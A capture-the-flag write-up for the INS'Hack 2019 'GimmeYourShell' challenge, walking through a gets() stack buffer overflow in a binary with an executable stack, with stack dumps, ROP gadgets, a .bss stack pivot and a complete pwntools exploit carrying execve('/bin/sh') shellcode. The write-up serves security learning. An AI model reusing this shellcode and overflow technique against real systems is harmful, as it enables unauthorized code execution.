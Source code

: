 

# GimmeYourShell

INS'Hack CTF 2019


This is an easy-level Pwning problem for INS Hack 2019.

### Problem description


"I try to find his secret. Can you answer his question and get his secret ? I can handle it.

He is waiting for you at: `ssh -i <your_keyfile> -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr` To find your keyfile, look into your profile on this website."


### Reconnaissance

This problem is extremely vulnerable. Checksec shows:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   weak
```

The stack is executable, which explains why we didn't get a `libc` file with this binary.

There's a `vuln` function that is basically extremely vulnerable. Here's the decompiled code from Ghidra:

```
void vuln(void)

{
  char local_18 [16];

  puts("Ok, now give me the name of our president.");
  fflush((FILE *)0x0);
  gets(local_18);
  puts("Oh I remember !");
  fflush((FILE *)0x0);
  return;
}
```
So, with `gets` I can read an arbitrary number of bytes into the `local_18` buffer and overwrite the return address. I want to return to the stack and execute some shell code. Let's take a look at the stack when we read in some characters:

![./gimmeyourshellstack.png](./gimmeyourshellstack.png)

Right above the return address from `vuln` is a pointer to a stack address. So if I pop `%rdi` and return to `puts`, I can leak that stack address. Then I can return to the `gets` instruction and read in code that returns straight into my buffer. Great! Let me make sure I have some 64-bit shell code working (this is a 64-bit binary). The shell code can be as long as I need, because I can just add a bunch of jumps to `ret` instructions to the stack if necessary so that I don't overwrite anything important in my ROP chain.

Next, I noticed that the code has no reference to `pop rdi` anywhere in its code that I can access via ROP. After thinking some more, I considered that a better approach might be to place my shell code on the stack, then overwrite the last byte of a stack pointer using `gets` in order to redirect execution back into my shell code. I think I'll try that.

Okay, looking at the stack when I call `gets`:
```
pwndbg> x /40xg $rsp
0x7fff4375cf70:	0x4141414141414141	0x4141414141414141
0x7fff4375cf80:	0x00007fff4375cf00	0x0000000000000000
0x7fff4375d000:	0x2f50bd9cd0ac0c50	0x2ea607d499520c50
0x7fff4375d010:	0x0000000000000000	0x0000000000000000
0x7fff4375d020:	0x0000000000000000	0x0000000000000000
0x7fff4375d030:	0x0000000000000000	0x0000000000000000
0x7fff4375d040:	0x0000000000000000	0x0000000000000000
0x7fff4375d050:	0x0000000000000000	0x0000000000400470
0x7fff4375d060:	0x00007fff4375d080	0x0000000000400499
0x7fff4375d070:	0x00007fff4375d078	0x000000000000001c
```

`0x7fff4375d060` seems like a good target: I can just overwrite the last byte with a null byte and jump back into my own buffer. I'm not sure it will work on the server, but it's worth a shot...

That approach is a little unstable, but I think I found something that does work:
`0x0000000000400654 : add rsp, 0x38 ; ret`

That lets me put my code on the stack and then jump over it. In the above example, if I put my exploit at 0x7fff4375d000, move `%rsp` up `0x38` bytes at `0x7fff4375cff8`, and then overwrite the last byte of `0x7fff4375d060` with a null byte, I'll return to my exploit. That should work 1 out of 16 times, so I can make it work with a brute force. Let's do it! As I'm checking this with `gdb`, I just want to remember that I want `%rsp` to end in 70 right after the read.

Here's the stack now:
```
pwndbg> x /40xg $rsp
0x7ffd749a1e70:	0x4141414141414141	0x4141414141414141
0x7ffd749a1e80:	0x4141414141414141	0x0000000000400417
0x7ffd749a1e90:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ea0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1eb0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ec0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ed0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ee0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ef0:	0x0000000000400417	0x0000000000400654
0x7ffd749a1f00:	0x622f2fbb48d23148	0xebc14868732f6e69
0x7ffd749a1f10:	0x485750e789485308	0x9090050f3bb0e689
0x7ffd749a1f20:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f30:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f40:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f50:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f60:	0x00007ffd749a1f00	0x0000000000400499
0x7ffd749a1f70:	0x00007ffd749a1f78	0x000000000000001c
```

That exploit works locally, but apparently not on the server. Well, maybe the stack is not set up the same way on the server. What I want to do is overwrite the first byte of the saved `%rbp` pointer on the stack right after the return address `0x400470`. So, I can figure out how many writes on the stack it will take me to get up to that return address.

Frustratingly, a few hours of efforts to overwrite just the right byte of a stack address on the server did not pay off. The stack was set up just a little differently. Then I considered popping a `.bss` address as `rbp` and returning to the `gets` call a second time, then returning to the `.bss` section to the exact place where I knew my buffer would be located.

And that worked!

![./solved.png](./solved.png)

Here's the exploit:
```
from pwn import *
from time import sleep

DELAY = 0.1
p = process('/bin/sh')
p.send('ssh user@gimme-your-shell.ctf.insecurity-insa.fr -i ~/.ssh/id_inshack -p 2225\n')

shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
shellcode += "\x48\xc7\xc0\x70\x04\x40\x00\xff\xe0\x90" # mov rax, 0x00400470; jmp rax


RET_ADDR = 0x400417
ADD_56_TO_RSP_ADDR = 0x400654
POPRBP_ADDR = 0x400522 # pop rbp; ret

p.recvuntil("president.")

payload1 = "A"*24
payload1 += p64(POPRBP_ADDR)
payload1 += p64(0x600b10) # bss section
payload1 += p64(0x400570) # gets into rbp-0x10
payload1 += p64(0x600b00)
payload1 += "\n"

payload2 = p64(0x0)*2
payload2 += p64 (0x600b10) # new rbp when leave is called
payload2 += p64(0x600b20) # ret to shellcode
payload2 += shellcode
payload2 += "\x90"*16
payload2 += "\n"


p.send(payload1)
sleep(DELAY)
p.send(payload2)
p.interactive()
```

### Comparison to other approaches

[beerpwn](https://github.com/beerpwn/ctf/tree/master/2019/INS'Hack_ctf/gimme_your_shell) actually solved this challenge using ROP, but notes in their write-up that the intended solution is to jump to the shellcode, as ASLR was disabled on the server.
